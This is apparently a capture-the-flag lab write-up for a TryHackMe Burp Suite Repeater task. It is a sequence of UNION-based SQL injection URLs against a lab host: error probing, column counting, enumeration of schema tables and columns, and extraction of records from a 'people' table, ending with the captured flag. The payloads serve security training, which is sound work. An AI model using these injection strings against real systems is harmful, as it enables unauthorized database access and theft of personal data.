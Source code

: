 # Burp Suite: Repeater

---

## Task 8 (Extra-mile Challenge)


http://10.10.195.30/about/2'

Invalid statement: SELECT firstName, lastName, pfpLink, role, bio FROM people WHERE id = 2'

vulnerable to SQLi

http://10.10.195.30/about/2%20UNION%20SELECT%201

http://10.10.195.30/about/2%20UNION%20SELECT%201,2

http://10.10.195.30/about/2%20UNION%20SELECT%201,2,3

http://10.10.195.30/about/2%20UNION%20SELECT%201,2,3,4

http://10.10.195.30/about/2%20UNION%20SELECT%201,2,3,4,5

found the no.of columns.

http://10.10.195.30/about/2%20UNION%20SELECT%201,2,3,4,5

http://10.10.195.30/about/0%20UNION%20SELECT%201,2,3,4,5

http://10.10.195.30/about/0%20UNION%20SELECT%201,2,3,4,database()

http://10.10.195.30/about/0%20UNION%20SELECT%201,2,3,4,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'site'

http://10.10.195.30/about/0%20UNION%20SELECT%201,2,3,4,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'people'

http://10.10.195.30/about/0%20UNION%20SELECT%201,2,3,4,group_concat(firstName,':',lastName,':',notes%20SEPARATOR%20'%3Cbr%3E')%20FROM%20people

THM{ZGE3OTUyZGMyMzkwNjJmZjg3Mzk1NjJh}